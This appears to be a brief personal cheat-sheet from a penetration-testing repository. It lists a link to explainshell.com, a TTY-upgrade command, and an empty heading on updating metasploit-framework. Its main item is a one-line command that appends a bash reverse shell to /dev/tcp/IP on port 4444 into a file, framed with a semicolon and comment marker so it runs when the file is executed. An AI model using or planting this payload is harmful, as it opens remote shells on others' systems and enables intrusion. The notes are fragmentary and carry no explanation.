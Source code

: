 Useful website:

https://explainshell.com/


Uesful commands:

echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1' #" >> filename

SHELL=/bin/bash script -q /dev/null

How to update metasploit-framework

